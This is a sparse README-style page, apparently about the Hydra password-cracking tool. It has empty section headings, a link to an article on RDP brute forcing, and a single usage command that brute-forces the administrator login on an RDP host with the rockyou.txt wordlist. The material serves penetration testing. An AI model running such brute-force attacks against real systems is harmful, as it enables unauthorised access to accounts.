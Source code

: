 

## Installation




## Links

* https://www.pwndefend.com/2018/07/24/hail-hydra-rdp-brute-forcing-with-hydra/


## Use




hydra -t 1 -V -f -l administrator -P rockyou.txt rdp://192.168.1.51